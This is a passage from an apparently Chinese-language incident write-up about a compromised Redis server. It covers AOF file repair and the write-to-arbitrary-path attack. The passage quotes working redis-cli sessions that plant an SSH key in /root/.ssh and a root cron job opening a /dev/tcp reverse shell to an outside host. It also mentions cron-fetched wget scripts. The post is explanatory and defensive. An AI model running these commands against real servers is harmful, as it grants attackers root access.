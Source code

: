 找到后根据aof文件的规则删除，少删了\*或者$也没事，关键是把相关的flush指令和set指令干掉。干掉后，需要用

```
./redis-check-aof --fix appendonly.aof
```

来修复aof文件，按y确认即可修复。用这个aof文件覆盖之前的aof文件即可。然后启动或重启redis，默认redis会从AOF文件中恢复数据。这样操作后你的大部分数据应该都能回来。

如果你没开AOF，那你的数据多半是寄了。RDB文件是二进制文件，如果你想通过改RDB文件来恢复，那难度有点高。

## 4 攻击原理分析

Redis如果没有设置密码并且bind是0.0.0.0并且protected-mode为no并且以root等较高权限运行，那么可以直接外网远程连接操作redis写入文件到任意路径。通常来说，原理是这样的

```
192.168.63.130:6379> config set dir /root/.ssh/
OK
192.168.63.130:6379> config set dbfilename authorized_keys
OK
192.168.63.130:6379> set x "\n\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDKfxu58CbSzYFgd4BOjUyNSpbgpkzBHrEwH2/XD7rvaLFUzBIsciw9QoMS2ZPCbjO0IZL50Rro1478kguUuvQrv/RE/eHYgoav/k6OeyFtNQE4LYy5lezmOFKviUGgWtUrra407cGLgeorsAykL+lLExfaaG/d4TwrIj1sRz4/GeiWG6BZ8uQND9G+Vqbx/+zi3tRAz2PWBb45UXATQPvglwaNpGXVpI0dxV3j+kiaFyqjHAv541b/ElEdiaSadPjuW6iNGCRaTLHsQNToDgu92oAE2MLaEmOWuQz1gi90o6W1WfZfzmS8OJHX/GJBXAMgEgJhXRy2eRhSpbxaIVgx root@kali\n\n\n"
OK
192.168.63.130:6379> save
OK
```

或者

```
# redis-cli 
127.0.0.1:6379> CONFIG SET dir /var/spool/cron <--切换到定时任务目录
OK
127.0.0.1:6379> CONFIG SET dbfilename root <--生成一个名为root的文件
OK
127.0.0.1:6379> set payload "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/10.0.2.5/9999  0>&1\n\n"  <--设置反弹shell
OK
127.0.0.1:6379> save 
```

以上均来自网络。原理是redis可以动态改变配置，通过改变路径到相应的文件夹下并设置RDB文件名，然后写入key并save，这个key就被保存到相应文件里了。神奇的是刚好key的value写入RDB后不会乱码并且能正确的被centos解析出来。第一种是写入sshkey，写入成功后可以免密ssh登录目标主机。第二种是通过向系统写入root的定时脚本，通过脚本反弹shell，把shell暴露给外网（如果是ubuntu的话，第二种方式可能不太行）。只要能操作目标主机的shell那是想干啥干啥。由于redis具有root权限，所以以上操作均能正常执行。

还有一种方式就是redis的rdb文件切到crontab定时任务目录下，直接写入wget命令获取远程主机脚本并sh，等crontab下的命令被定时执行时就会触发。本人应该是被此种方式攻击。

总之，Redis攻击的原理无外乎改变rdb文件路径来往对应路径写入所需的内容。

## 5 预防

通过本漏洞攻击需要满足4个条件

